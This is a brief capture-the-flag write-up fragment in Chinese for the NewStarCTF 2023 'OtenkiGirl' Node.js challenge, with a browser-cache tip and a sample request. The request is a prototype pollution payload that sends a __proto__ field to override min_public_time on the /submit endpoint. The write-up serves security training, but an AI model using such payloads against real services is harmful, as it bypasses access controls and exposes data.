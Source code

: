 NewStarCTF 2023 Week3 OtenkiGirl

刷新网页时没新数据 -- nodejs缓存问题: 开发者工具 -> 应用程序 -> 存储中清除网站数据然后刷新网页即可。


```js
POST /submit HTTP/1.1
Content-Type: application/json

{
  "contact": "test",
  "reason": "test",
  "__proto__": {
    "min_public_time": "1001-01-01"
  }
}
```